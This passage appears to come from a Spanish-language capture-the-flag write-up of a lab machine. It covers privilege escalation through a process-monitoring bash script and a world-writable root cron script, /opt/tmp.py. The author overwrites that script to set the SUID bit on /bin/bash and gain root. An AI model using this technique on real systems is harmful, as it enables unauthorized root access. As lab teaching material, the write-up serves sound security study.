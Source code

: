 
```bash
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
  new_process=$(ps -eo user,command)
  diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "kworker|procmon|command"
  old_process=$new_process
done
```

Ejecutamos el script y despues de unos minutos vemos que el usuario `root` esta ejecutando un script `tmp.py`.


```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/tmp$ ./procmon.sh 
> root     /usr/sbin/CRON -f
< root     /usr/sbin/CRON -f
c^C
${debian_chroot:+($debian_chroot)}mindy@solidstate:/tmp$ ls
${debian_chroot:+($debian_chroot)}mindy@solidstate:/tmp$ cd /dev/shm
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ nano procmon.sh
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ chmod +x procmon.sh 
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ ./procmon.sh 
> root     /usr/sbin/CRON -f
> root     /bin/sh -c python /opt/tmp.py
> root     python /opt/tmp.py
< root     /usr/sbin/CRON -f
< root     /bin/sh -c python /opt/tmp.py
< root     python /opt/tmp.py
```

Si inspeccionamos los permisos del archivo, podemos ver que tenemos capacidad de escritura, quiere decir que podemos modificarlo y al cabo de unos minutos el usuario `root` sera el que lo ejecute.

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ ls -l /opt/tmp.py 
-rwxrwxrwx 1 root root 105 Aug 22  2017 /opt/tmp.py
```

Vamos a modificarlo para que al ejecutar otorgue el permiso `suid` a la bash.


```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ cat /opt/tmp.py
#!/usr/bin/env python
import os
os.system("chmod u+s /bin/bash")
```

Esperamos unos minutos y vemos que ahora la bash ya cuenta con el permisos `suid`, ahora podemos convertirnos en el usuario `root` , ir a su directorio personal y visualizar la segunda flag `root.txt`.
